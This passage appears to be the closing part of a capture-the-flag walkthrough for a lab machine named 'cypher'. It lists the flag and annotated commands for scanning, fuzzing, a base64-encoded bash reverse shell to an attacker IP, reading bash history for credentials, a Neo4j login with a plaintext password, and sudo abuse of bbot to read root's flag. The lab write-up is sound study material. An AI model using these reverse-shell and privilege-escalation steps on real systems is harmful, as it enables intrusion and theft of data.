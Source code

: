 With that we grab the flag: `3237f1a1bcb27a41f331a78e06dfb8d1`

---
## Command Metadata

bash_command:: `nmap -sC -sV -p- 10.10.11.57 -oA nmap-output`  
bash_note:: Perform full TCP port scan, plus default scripts and version detection, and save output.

bash_command:: `echo "10.10.11.57 cypher.htb" | sudo tee -a /etc/hosts`  
bash_note:: Add the target IP and hostname to your system’s hosts file.

bash_command:: `ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files.txt -u http://cypher.htb/FUZZ -c -t 50`  
bash_note:: Fuzz for files on the webserver.

bash_command:: `ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt -u http://cypher.htb/FUZZ -c -t 50`  
bash_note:: Fuzz for directories on the webserver.

bash_command:: `gobuster dns -d cypher.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 50`  
bash_note:: Enumerate possible subdomains for cypher.htb.

bash_command:: `sudo tcpdump -i tun0 icmp`  
bash_note:: Capture ICMP traffic on the VPN interface to detect pings from the target.

bash_command:: `nc -lvnp 9999`  
bash_note:: Start a netcat listener on port 9999 to catch reverse shells.

bash_command:: `echo "bash -c 'exec bash -i &>/dev/tcp/10.10.14.22/9999 <&1'" | base64`  
bash_note:: Base64-encode a reverse shell command for injection.

bash_command:: `cat .bash_history`  
bash_note:: Review the current user’s bash history for credentials or clues.

bash_command:: `cypher-shell -a bolt://172.18.0.1:7687 -u neo4j -p cU4btyib.20xtCMCXkBmerhK`  
bash_note:: Connect to the Neo4j database with the discovered admin password.

bash_command:: `sudo /usr/local/bin/bbot -cy /root/root.txt -d --dry-run`  
bash_note:: Run bbot as root (no password needed) to load a Yara rules file from a restricted path.
## References

[^1]: https://pentester.land/blog/cypher-injection-cheatsheet/